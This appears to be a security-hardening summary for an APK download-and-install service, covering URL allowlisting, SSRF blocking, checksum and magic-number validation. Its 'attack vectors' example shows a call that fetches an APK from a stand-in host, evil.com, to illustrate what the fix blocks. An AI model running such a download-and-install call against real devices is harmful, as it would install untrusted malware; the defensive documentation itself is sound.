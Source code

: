 **File:** `backend/device-service/src/devices/devices.consumer.ts`

**Security Measures Implemented:**

1. **URL Validation & Whitelist**
   - `ALLOWED_DOWNLOAD_DOMAINS`: 5 trusted domains (GCS, S3, Aliyun OSS, localhost)
   - Only HTTPS URLs allowed (exception: localhost HTTP for dev)
   - SSRF protection: Blocks private IP ranges (10.x, 172.16-31.x, 192.168.x, 169.254.x)
   - `validateDownloadUrl()`: Multi-layer URL security checks

2. **File Integrity Verification**
   - `calculateChecksum()`: SHA-256 hash calculation
   - Mandatory checksum verification (warns if missing)
   - Mismatch detection: Deletes file and aborts installation

3. **File Format Validation**
   - `validateApkFile()`: Magic number validation (0x504B0304 - ZIP/APK header)
   - File size limits: MAX_APK_SIZE = 200MB
   - Real-time size monitoring during download

4. **Secure Download Implementation**
   ```typescript
   downloadApkSecure(url, appId, sha256) {
     ✅ URL validation (HTTPS, domain whitelist, SSRF check)
     ✅ HTTP status code validation (must be 200)
     ✅ Content-Type validation
     ✅ Content-Length check (pre-download)
     ✅ Real-time size monitoring (during download)
     ✅ SHA-256 checksum verification (post-download)
     ✅ APK magic number validation
     ✅ 30-second timeout
     ✅ Automatic cleanup on failure
   }
   ```

5. **Modified Flow:**
   ```typescript
   handleAppInstall(event) {
     const checksum = event.sha256;
     const apkPath = await downloadApkSecure(url, appId, checksum);
     await validateApkFile(apkPath);  // Magic number check
     await adbService.installApk(deviceId, apkPath);
     await fs.unlink(apkPath);  // Cleanup
   }
   ```

**Attack Vectors Blocked:**
```typescript
// Before: VULNERABLE
downloadApk("http://evil.com/malware.apk");  ❌
// → Downloads and installs malware

// After: BLOCKED
downloadApkSecure("http://evil.com/malware.apk");
// → Throws: "不允许从该域名下载: evil.com"  ✅

downloadApkSecure("https://example.com/fake.apk", null, "abc123");
// → Downloads, calculates hash, detects mismatch
// → Deletes file, throws: "APK 文件校验和不匹配"  ✅
```
